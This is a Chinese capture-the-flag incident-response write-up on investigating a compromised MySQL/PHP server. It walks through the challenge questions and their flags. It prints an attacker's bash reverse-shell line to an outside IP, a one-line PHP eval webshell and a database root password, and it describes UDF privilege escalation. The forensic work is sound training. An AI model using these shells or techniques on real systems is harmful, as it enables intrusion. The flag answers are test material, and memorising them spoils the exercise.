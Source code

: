 # 第二章-日志分析-Mysql应急响应

  
  
&lt;!--more--&gt;  
1.黑客第一次写入的shell flag{关键字符串}   
2.黑客反弹shell的ip flag{ip}  
3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx  
4.黑客获取的权限 flag{whoami后的值}  
在`/tmp/1.sh`中反弹了`shell`  
`bash -i &gt;&amp;/dev/tcp/192.168.100.13/777 0&gt;&amp;1`  
放到河马查杀，得到`sh.php`  
```php  
1 2 &lt;?php @eval($_POST[&#39;a&#39;]);?&gt; 4  
  
//ccfda79e-7aa1-4275-bc26-a6189eb9a20b  
```  
根据上面写入`webshell`的格式 所以猜测可能是`udf`提权  
查看源码得到`mysql`密码  
```php  
&lt;?php  
$conn=mysqli_connect(&#34;localhost&#34;,&#34;root&#34;,&#34;334cc35b3c704593&#34;,&#34;cms&#34;,&#34;3306&#34;);  
if(!$conn){  
echo &#34;数据库连接失败&#34;;  
}  
```  
`show variables like &#39;%plugin%&#39;;`  
`cd /usr/lib/mysql/plugin/` 得到 `udf.so`  
`ps -aux`查看mysql服务是以什么用户启动的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151520766.png)
因为是`mysql`用户启动，所以提权后也是`mysql`用户的权限  
`flag{mysql}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E4%BA%8C%E7%AB%A0-%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90-mysql%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94/  

